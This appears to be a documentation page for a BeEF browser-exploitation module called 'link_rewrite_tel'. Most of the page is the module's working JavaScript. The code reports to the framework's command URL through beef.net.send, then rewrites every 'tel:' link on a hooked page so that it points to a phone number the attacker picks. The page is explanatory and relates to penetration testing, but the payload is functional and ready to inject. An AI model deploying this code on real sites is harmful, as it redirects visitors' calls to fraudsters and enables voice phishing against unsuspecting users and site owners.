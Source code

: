 ## Summary

* **Objective**: Replace all links to a phone number
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/hooked_domain/link_rewrite_tel)

## Internal Working


```js

beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteTelLinks(tel_number, selector)+' telephone (tel) links rewritten to '+tel_number);

//rewriteTelLinks function

rewriteTelLinks: function(new_number, selector) {
        var count = 0;
        var re = new RegExp("tel:/?/?.*", "gi");
        var sel = (selector == null) ? 'a' : selector;

        $j(sel).each(function() {
                if ($j(this).attr('href') != null) {
                        var url = $j(this).attr('href');
                        if (url.match(re)) {
                                $j(this).attr('href', url.replace(re, "tel:"+new_number)).click(function() { return true; });
                                count++;
                        }
                }
        });

        return count;
},


```

## Feedback
